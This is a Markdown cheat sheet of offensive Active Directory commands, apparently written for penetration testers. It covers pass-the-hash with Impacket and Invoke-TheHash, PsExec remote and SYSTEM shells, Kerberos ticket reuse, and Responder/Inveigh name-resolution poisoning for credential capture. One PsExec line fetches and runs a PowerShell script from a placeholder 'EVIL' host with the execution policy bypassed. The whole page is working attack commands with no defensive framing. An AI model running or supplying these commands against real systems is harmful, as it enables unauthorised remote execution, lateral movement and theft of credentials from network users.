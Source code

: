 ## Pass-the-Hash (PTH)

* Impacket
   * `psexec.py <domain>/<user>:<pass>@<target> -hashes <ntlm>:<ntlm> powershell`
* Invoke-TheHash
   * Check reuse
      * `Invoke-TheHash -Type WMIExec -Target <ip_subnet> -Username Administrator -Hash <ntlm>`
   * Run command
      * `Invoke-TheHash -Type SMBExec -Target <ip> -Username Administrator -Hash <ntlm> -Command 'whoami'`


## PsExec

* Remote target
   * `psexec.exe -accepteula \\<target> powershell`
   * `psexec.exe -accepteula \\<target> "cmd.exe" "/c powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://EVIL/run.txt'))"`
* SYSTEM
   * `psexec.exe -accepteula -i -s powershell`
* Task Manager
   * `iwr -uri https://live.sysinternals.com/PsExec64.exe -OutFile C:\Windows\Tasks\psexec.exe`
   * `.\psexec.exe -accepteula -sid taskmgr.exe`


## Kerberos on Linux

* Install Kerberos client utilities
   * `sudo apt install krb5-user`
* Set the ticket for impacket use
   * `export KRB5CCNAME=/tmp/ticket.ccache`
* Example: Get AD Users
   * `proxychains GetADUsers.py -k -no-pass -dc-ip <dc-ip> <domain>/<user>`
      * -no-pass = Don't ask for password (useful for -k)
      * -k = Use Kerberos authentication.


## Responder

* [Responder](https://github.com/lgandx/Responder)
   * `responder -I eth0 -wd`
   * -w = Start the WPAD rogue proxy server.
   * -d = Enable answers for DHCP broadcast requests.
* [InveighZero](https://github.com/Kevin-Robertson/InveighZero)
   * `Inveigh.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]`
* [Inveigh](https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1)
   * `Invoke-Inveigh -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y [-Elevated N]`

